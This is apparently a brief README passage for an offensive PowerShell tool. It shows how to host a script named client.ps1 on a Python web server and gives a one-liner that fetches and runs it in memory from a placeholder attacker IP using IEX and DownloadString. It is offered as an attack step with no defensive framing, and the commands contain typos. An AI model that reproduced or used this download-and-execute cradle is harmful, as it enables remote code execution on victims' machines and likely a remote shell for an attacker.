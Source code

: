 # Serve client.ps1 file throught server i.e. simple python server
```
python3 -m http.server 80
```

then download it as a client and run or directly from command line
```
powershel -nop "IEX(New-Object net.Webclient).DownloadString('http:<attackerIp>/client.ps1')"
```
